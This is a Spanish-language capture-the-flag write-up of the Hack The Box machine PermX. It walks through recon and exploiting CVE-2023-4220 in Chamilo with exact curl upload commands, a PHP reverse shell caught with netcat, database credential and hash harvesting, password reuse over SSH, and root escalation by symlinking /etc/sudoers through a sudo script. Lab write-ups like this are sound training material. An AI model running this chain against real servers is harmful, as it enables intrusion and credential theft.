





Comando Nmap:
nmap -sC -sV -oN scan_ini 10.10.11.23
Salida Nmap:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-20 14:15 UTC
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.057s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_ 256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
Conclusión de resultado Nmap:
Nmap nos indica en este escaneo que la máquina tiene dos puertos abiertos. El 22 el cual, como en este caso, suele ser el puerto de un servidor SSH y el 80 el puerto de un servidor web. Me decido a observar que devuelve este servidor web usando un Firefox: 
Para solucionar esto añadimos la siguiente linea al archivo /etc/hosts: 
Ahora entrando de nuevo desde Firefox, ya mejora la cosa 😂:
Como navengando por la web no encuentro nada útil en el código fuente, ni algún tipo de formulario para probar SQLi, decido probar a buscar subdominios con la herramienta ffuf y lista de posibles dominios:
┌─[✗]─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ #ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-20000.txt -fw 18
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://permx.htb
:: Wordlist : FUZZ: /home/user/Desktop/htb/PermX/subdomains-top1million-20000.txt
:: Header : Host: FUZZ.permx.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response words: 18
________________________________________________
lms [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 589ms]
www [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 4991ms]
Vemos que tenemos un nuevo dominio a parte del www al que accedimos al principio, entramos en lms.permx.htb y de nuevo firefox no resuelve la url por lo que añado una nueva linea en /etc/hosts para que resuelva correctamente. Una vez añadida nos encontramos con este panel de acceso:

Pruebo con SQLi y no consigo nada, asi que mirando por 'internete' para ver que era esta plataforma, por que la verdad nunca antes habia oido hablar de ella. Veo que es un software open-source para publicar cursos online... a mayores encuentro que tiene una vulnerabilidad (CVE-2023-4220). Como se explica en el propio artículo consiste en un fallo a la hora de sanatizar los archivos que se suben al servidor, pudiendo subir así subir .php ejecutables desde la máquina atacantes, vamos lo que viene siendo Remote Code Execution. Hago la prueba que pone en el artículo y 'voilà' me devuelve la salida esperada viendo info. de el usuario que ejecuta el .php desde la maquina víctima:
┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Pues tocaría hacer una reverse shell desde la máquina objetivo. Utilizo el siguiente .php, sustituyendo mi ip de htb y el puerto que pongo a la escucha con nc -lvnp 1234 desde mi máquina: 
Escuchar desde máquina atacante: (python3 -c 'import pty; pty.spawn("/bin/bash")' para tener una shell mas fácil de usar (resumen resumido))
┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ #nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.11.23 56712
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
15:27:32 up 1:01, 0 users, load average: 0.00, 0.01, 0.13
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@permx:/$ whoami
whoami
www-data
Ejecutar .php:
┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ #curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ #curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
Curioseando con la reverse shell veo un carpeta mtz en el directorio home de la victima a la que no tenemos acceso... sigo mirando...:
www-data@permx:/$ cd home
cd home
www-data@permx:/home$ ls
ls
mtz
www-data@permx:/home$ cd mtz
cd mtz
bash: cd: mtz: Permission denied
En la carpeta donde se configura el servidor web busco alguna credencial para el servicio de SSH o algo que resulte util. Vemos un configuration.php interesante, en el encontramos un user y un pass para lo que sería una base de datos:
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep pass
cat configuration.php | grep pass
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Security word for password recovery
$_configuration['password_encryption'] = 'bcrypt';
...
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php | grep user
cat configuration.php | grep user
$_configuration['db_user'] = 'chamilo';
// Map CAS attributes with user/user extrafields values BT#17620
...
A primera vista son las credenciales de una base de datos asi que pruebo a ver si son correctas. Me encuentro con estos hashes de contraseñas, lo primero que pienso es usar HashCat para ver si saco las contraseñas pero como el ordenador no lo da resuelto (espero mucho tiempo jaja) pues decido ir a ver si hay otra solución:
MariaDB [chamilo]> select username, password from user;
select username, password from user;
+----------+--------------------------------------------------------------+
| username | password |
+----------+--------------------------------------------------------------+
| admin | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
| anon | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----------+--------------------------------------------------------------+
2 rows in set (0.000 sec)
En esta parte, ya final para el user.txt tuve la 'ayuda' con un amigo y es que resulta que tanto la base de datos como el usuario de ssh, (el que no es root) mtz, comparten la misma contraseña !!
┌─[root@parrot]─[/home/user/Desktop/htb/PermX]
└──╼ #ssh tmz@10.10.11.23
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
tmz@10.10.11.23's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
System information as of Sat Jul 20 04:49:27 PM UTC 2024
System load: 0.21
Usage of /: 95.1% of 7.19GB
Memory usage: 25%
Swap usage: 0%
Processes: 444
Users logged in: 1
IPv4 address for eth0: 10.10.11.23
IPv6 address for eth0: dead:beef::250:56ff:fe94:ddd3
=> / is using 95.1% of 7.19GB
=> There is 1 zombie process.
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Sat Jul 20 16:38:43 2024 from 10.10.14.253
mtz@permx:~$ whoami
mtz
mtz@permx:~$ pwd
/home/mtz
mtz@permx:~$ ls
helpfile su_makineyle_oynamayın user.txt
mtz@permx:~$ cat user.txt
La solución encontrada para esta parte de la máquina consiste en, primero, buscar alguna ejecución como root desde el usuario mtz:
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User mtz may run the following commands on permx:
(ALL : ALL) NOPASSWD: /opt/acl.sh
El contenido de este archivo acl.sh es que mediante parámetros correctos podemos cambiar los permisos de un archivo...
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash
if [ "$#" -ne 3 ]; then
/usr/bin/echo "Usage: $0 user perm file"
exit 1
fi
user="$1"
perm="$2"
target="$3"
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
/usr/bin/echo "Access denied."
exit 1
fi
# Check if the path is a file
if [ ! -f "$target" ]; then
/usr/bin/echo "Target must be a file."
exit 1
fi
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
De primeras pruebo a ver si en el directorio de root puedo leer el archivo con la flag de root, mal por mi parte por que no tengo permisos en el directorio root 😂:
mtz@permx:~$ sudo /opt/acl.sh mtz rw /root/root.txt
Access denied.
Asi que mejor modificar el archivo que me limita el acceso como sudo, en /etc/sudoers (ahora es obvio pero no me di cuenta... no tengo acceso 😂):
mtz@permx:~$ sudo /opt/acl.sh mtz rw /etc/sudoers
Access denied.
Pruebo a creear un enlace simbólico:
mtz@permx:~$ ln -s /etc/sudoers ./enlace
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/enlace
mtz@permx:~$ cat enlace
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults env_reset
Defaults mail_badpass
Defaults secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults use_pty
# This preserves proxy settings from user environments of root
# equivalent users (group sudo)
#Defaults:%sudo env_keep += "http_proxy https_proxy ftp_proxy all_proxy no_proxy"
# This allows running arbitrary commands, but so does ALL, and it means
# different sudoers have their choice of editor respected.
#Defaults:%sudo env_keep += "EDITOR"
# Completely harmless preservation of a user preference.
#Defaults:%sudo env_keep += "GREP_COLOR"
# While you shouldn't normally run git as root, you need to with etckeeper
#Defaults:%sudo env_keep += "GIT_AUTHOR_* GIT_COMMITTER_*"
# Per-user preferences; root won't have sensible values for them.
#Defaults:%sudo env_keep += "EMAIL DEBEMAIL DEBFULLNAME"
# "sudo scp" or "sudo rsync" should be able to use your SSH agent.
#Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"
# Ditto for GPG agent
#Defaults:%sudo env_keep += "GPG_AGENT_INFO"
# Host alias specification
# User alias specification
# Cmnd alias specification
# User privilege specification
root ALL=(ALL:ALL) ALL
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
# Allow members of group sudo to execute any command
%sudo ALL=(ALL:ALL) ALL
# See sudoers(5) for more information on "@include" directives:
@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
Edito la ultima linea sustituyendola por ALL y...
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/enlace
mtz@permx:~$ nano enlace
mtz@permx:~$ sudo su
root@permx:/home/mtz# cd /root
root@permx:~# ls
backup reset.sh root.txt
root@permx:~# cat root.txt
🎉🎉🎉
